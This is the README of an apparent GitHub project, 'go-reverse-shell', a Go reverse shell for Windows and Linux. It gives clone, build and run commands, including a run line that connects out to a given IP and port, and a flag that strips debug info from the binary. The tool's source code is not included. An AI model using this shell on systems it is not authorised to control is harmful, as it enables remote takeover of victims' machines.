 # go-reverse-shell
A basic shell made in go for windows and linux


## Install (linux)

```
git clone https://github.com/AssassinUKG/go-reverse-shell.git
cd go-reverse-shell
go build revshell/shell.go
./shell -i IP -P PORT
```

![image](https://user-images.githubusercontent.com/5285547/138002109-0d9108b4-2b06-46fd-a84f-219f6ec8e2cf.png)


## Build

Windows

```
go build .\shell.go
```

Linux


```
go build shell
```

## Remove debugger info. 

```
go build -ldflags "-s -w"
```

